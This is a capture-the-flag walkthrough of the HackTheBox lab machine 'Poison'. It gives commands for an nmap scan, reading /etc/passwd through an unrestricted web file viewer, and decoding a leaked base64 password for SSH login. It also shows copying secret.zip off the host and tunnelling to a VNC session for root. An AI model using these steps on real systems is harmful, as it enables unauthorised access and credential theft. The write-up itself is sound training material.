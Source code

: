 # Enumeration

The first step is to run an nmap scan to get an idea of what services are running on the machine.

*nmap -sV -sC -Pn -oA Poison 10.10.10.84*

```
nmap -sV -sC -Pn -oA Poison 10.10.10.84
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for 10.10.10.84
Host is up (0.035s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
5802/tcp open  http    Bacula http config
5902/tcp open  vnc     VNC (protocol 3.8)
5903/tcp open  vnc     VNC (protocol 3.8)
6002/tcp open  X11     (access denied)
6003/tcp open  X11     (access denied)
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```
There's a good amount of services running, but let's start by visiting the web interface which shows an input box used to view files. This is unrestricted so entering `/etc/passwd` will allow us to view this file and enumerate users.

![Homepage](https://github.com/iJackWilson/HackTheBox-Writeups/blob/master/Images/Poison/Homepage.png?raw=true)

We also notice that a file called `listfiles.php` is referenced. Navigating to this page mentions a file called `pwdbackup.txt`

![Homepage](https://github.com/iJackWilson/HackTheBox-Writeups/blob/master/Images/Poison/ListFiles.png?raw=true)

Navigating to this file shows a repeatedly encoded password.

![Homepage](https://github.com/iJackWilson/HackTheBox-Writeups/blob/master/Images/Poison/PwdBackup.png?raw=true)

The = sign at the end of the encoded password is a giveaway that this is Base64 encoded. There are various tools available to decode Base64.

One way to do it would be to use the following bash command, perhaps even putting it inside a for loop:

*echo [base64 encoded value | base64 --decode > pass.txt*

#Connecting to the server

We know from viewing the */etc/passwd* file that there is a user called *Charix* and that SSH is running on port 22, so let's try to connect with the password we just decoded:

*ssh Charix@10.10.10.84*

In my experience, there is some latency with this machine, so you may have to wait 10-15 seconds for the password prompt to appear. Once it does, you have user access on the machine and the ability to grab the user.txt flag.

![Homepage](https://github.com/iJackWilson/HackTheBox-Writeups/blob/master/Images/Poison/UserShell.png?raw=true)

#Privesc

There's also a file called secret.zip sitting in the home directory. We'll need this later so let's copy it using secure copy (SCP). On the host machine (not the HTB machine), type:

`scp Charix@10.10.10.84:~/secret.zip ~/`

This zip is password protected, but can be unzipped with the same password used to log into the server.

Now that we have user privileges, let's escalate to root. Going back to the initial nmap scan, we notice that vns is running on a couple of ports. We can forward the remote vnc port to our local machine using SSH tunnelling:

`ssh -L 6999:localhost:5902 charix@10.10.10.84`

We can now connect to the desktop using vncviewer. There isn't a password to type here, but we use the secret file that we extracted and unzipped earlier as a means of authentication:

`vncviewer 127.0.0.1:6999 -passwd ~/secret`

This should open a vnc session with a terminal visible. We can use this terminal to grab the flag from the root.txt file.